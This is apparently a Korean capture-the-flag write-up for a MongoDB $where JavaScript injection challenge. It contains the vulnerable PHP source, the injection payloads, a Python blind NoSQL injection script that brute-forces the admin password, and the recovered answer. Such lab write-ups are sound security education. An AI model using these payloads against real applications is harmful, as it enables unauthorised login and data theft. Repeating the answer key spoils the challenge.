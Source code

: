 ```yaml
---
title : "LOS Lv.48 incubus"
categories : [Wargame, rubiya]
tags : [$where, js injection, Blind NOSQL Injection]
---
```


## incubus
```php
query : {"$where":"function(){return obj.id==''&&obj.pw=='';}"}

<?php
  include "./config.php";
  login_chk();
  $db = mongodb_connect();
  if(preg_match('/prob|_|\(/i', $_GET['id'])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\(/i', $_GET['pw'])) exit("No Hack ~_~");
  $query = array("\$where" => "function(){return obj.id=='{$_GET['id']}'&&obj.pw=='{$_GET['pw']}';}");
  echo "<hr>query : <strong>".json_encode($query)."</strong><hr><br>";
  $result = mongodb_fetch_array($db->prob_incubus->find($query));
  if($result['id']) echo "<h2>Hello {$result['id']}</h2>";

  $query = array("id" => "admin");
  $result = mongodb_fetch_array($db->prob_incubus->find($query));
  if($result['pw'] === $_GET['pw']) solve("incubus");
  highlight_file(__FILE__);
?>
```

## Solution
```
$where : JavaScript 표현식에 만족하는 documents를 조회
```
online tool : <a href="https://mongoplayground.net/" target="_blank">https://mongoplayground.net/</a>  
아래처럼 설정하고 테스트 함.
```
[
  {
    "id": "admin",
    "pw": "admin@secret"
  },
  {
    "id": "guest",
    "pw": "guest@secret"
  }
]
```
먼저 아이디, 비밀번호 입력해주면 잘 나옴.
```
db.collection.find({
  "$where": "function(){return obj.id=='admin'&&obj.pw=='admin@secret';}"
})
```
```
[
  {
    "_id": ObjectId("5a934e000102030405000000"),
    "id": "admin",
    "pw": "admin@secret"
  }
]
```
이제 비밀번호를 모르는 상황에서 로그인 하려면 아래와 같음.
```
db.collection.find({
  "$where": "function(){return obj.id==''&&obj.pw==''||obj.id=='admin';}"
})
```
이제 실제 사이트에서 적용해보면 아래와 같음.
```
?pw='||obj.id=='admin
```
이제 문제에서 요구하는 비밀번호를 알아내야 함. 
먼저 비밀번호 길이를 알아낼꺼임. 
```
db.collection.find({
  "$where": "function(){return obj.id==''&&obj.pw==''||obj.id=='admin'&&obj.pw.length>'1';}"
})
```
이제 적용해보면 아래와 같음.
```
?pw='||obj.id=='admin'%26%26obj.pw.length>'1
?pw='||obj.id=='admin'%26%26obj.pw.length=='8

비밀번호 길이는 8임.
```
비밀번호 값을 알아내야 하는데 '('가 필터링 되어 있어서 js String methods 사용 불가.  
근데 obj.pw는 string이므로 배열형태로 값을 알아낼 수 있음.
```
db.collection.find({
  "$where": "function(){return obj.id==''&&obj.pw==''||obj.id=='admin'&&obj.pw[0]=='a';}"
})
```
이제 적용해보면 아래와 같음.
```
?pw='||obj.id=='admin'%26%26obj.pw[0]>'0
?pw='||obj.id=='admin'%26%26obj.pw[0]=='b

-> pw 첫 글자는 b라는 걸 알아냄! 이제 Blind NOSQLi를 하면 됨.
```
```python
import requests
import string

url='https://los.rubiya.kr/chall/incubus_3dff9ce783c9f574edf015a7b99450d7.php'
headers={'Content-Type':'application/x-www-form-urlencoded'}
cookies={'PHPSESSID':'[redacted]'}

check="0123456789"+string.ascii_lowercase
pw=''

for i in range(0,9) :
    for j in check :
        payload={'pw' : "'||obj.id=='admin'&&obj.pw["+str(i)+"]=='"+j}
        res=requests.get(url, headers=headers, params=payload, cookies=cookies)
        if "<h2>Hello admin</h2>" in res.text:
            pw+=j
            print("pw : "+pw)  # b47822ea
            break
             
print("INCUBUS Clear!")
```